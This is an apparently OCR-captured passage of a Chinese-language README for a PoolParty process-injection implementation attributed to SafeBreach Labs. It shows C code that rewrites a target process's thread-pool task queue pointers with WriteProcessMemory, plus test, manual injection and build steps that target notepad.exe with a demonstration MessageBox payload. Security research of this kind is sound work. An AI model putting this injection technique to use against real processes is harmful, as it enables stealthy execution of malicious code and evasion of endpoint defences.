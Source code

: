 ```c

// 修改任务队列链表
WriteProcessMemory(hProcess, &targetTpPool.TaskQueue[HIGH]->Queue.Flink,
                   &pRemoteTpWork->Task.ListEntry, ...);
WriteProcessMemory(hProcess, &targetTpPool.TaskQueue[HIGH]->Queue.Blink,
                   &pRemoteTpWork->Task.ListEntry, ...);
```

## 使用方法

### 快速测试（推荐）

```bash
cd techniques/37-poolparty
chmod +x test.sh
./test.sh
```

测试脚本会自动：
1. 启动notepad.exe
2. 获取进程PID
3. 使用变体2进行注入
4. 显示执行结果

### 手动使用

```bash
# 1. 启动目标进程
notepad.exe &

# 2. 获取PID
tasklist | grep notepad.exe

# 3. 执行注入（使用变体2：RemoteTpWorkInsertion）
./PoolParty.exe -V 2 -P <PID>

# 4. 与notepad交互以触发shellcode
# 预期：弹出MessageBox显示"Injected! PoolParty TP_WORK"
```

### 编译说明

**本实现使用 SafeBreach Labs 官方源代码**

```bash
cd techniques/37-poolparty

# 使用 Visual Studio 2022 MSBuild 编译
./build.sh

# 输出位置
# - PoolParty.exe (当前目录，自动复制)
# - src/x64/Release/PoolParty.exe (原始输出)
```
